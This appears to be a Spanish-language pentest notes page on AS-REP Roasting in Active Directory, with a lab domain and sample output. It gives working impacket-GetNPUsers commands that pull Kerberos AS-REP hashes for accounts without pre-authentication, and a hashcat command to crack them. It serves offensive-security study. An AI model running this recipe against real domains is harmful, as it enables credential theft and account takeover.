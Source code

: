 # AS\_REP Roasting

El primer paso para pedir un **TGT** es intentar autenticarse al KDC con las credenciales de usuario, si son válidas el **KDC** le entregará el **TGT** al usuario dado, ya que sino cualquiera podría pedir un TGT de otro usuario para intentar crackear por fuerza bruta la contraseña. Pero hay algunos casos en que algunos usuarios **tienen desactivada la pre-autenticación de Kerberos**, por lo que es posible pedir un TGT a nombre de este usuario y tratar de romper el hash.



### Explotación

Listar si el/los usuario/s tienen la pre-autenticación activada

```
# De un usuario
impacket-GetNPUsers gerarcorp.local/SVC_SQLService -no-pas  
                 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for SVC_SQLService
$krb5asrep$23$SVC_SQLService@GERARCORP.LOCAL:1c18c0d8aaecaec478e7a9e7b122a308$a8c121471fa3d625d6149862a03963c44e0f28731d0efea07c7e0d4a9706bea6921ff0120993f19e34b46f3d31a423512bd2b925f60ac6adcfa029f9e1eb9b7fa67fb054113a15c458b5892f5730238c73dbaecb2674e2c17d58e9c5e020459035ab4f65752b6edbfa2561c7788451da014ab72ce915b03c29e8752a2ea9b1babb5ac02542d2f3c320198f23378bd8bacfe3ec710b48053d20ecf1832b1b0ddc41acba141cbaa4a4400f4e37da1fc5f3f047aae55fb9b842faf13ffeee9f65e0356e05c5a98bb5b5588a3620ef2fd5e54d505f60a6c1d99e611c714ca0d909c10d1f7beb2d41d3f128640bc3cfa472265c02

# De varios a través de un fichero
impacket-GetNPUsers gerarcorp.local/ -usersfile usernames.txt -format hashcat

Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] User Administrador doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User krifel doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User admintest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User wdaniel doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$SVC_SQLService@GERARCORP.LOCAL:ae320eb5f8b0ef164dd8e9b8035e7b9f$0350e1267009baa836fdbdc72610ae35f980275b6c4f6313a5ff4799c520d8019d922f0d19e25ef0d76012dbb6f4de361db918d622c9fbde87b67d93d7665fc99e28f9e4d214e6f274a981f961b81e3b34409b196b1b4863f604e1f4e80f9808adc21761697e9de39516622907cabbc0b7e19181a957ee22980d75a6408508a2f8b4fb2752e732c4319e9f1c15adfc9ba542192cb7d5779eae2c415a48ea4fdd56878050e0f0b95ad5afa922f69e2b0f74294a2b1534cc92f5b5ac511c9c3888955d1a0f77de76385faf634bfb31edf4a50b92e8b0fd864e0bb0751437bacadf88b1bfdf893154ee403765b20cc11ace94ea

```

Crackeo con hashcat

```
hashcat -m 18200 -a 0 hash.txt wordlist.txt
```

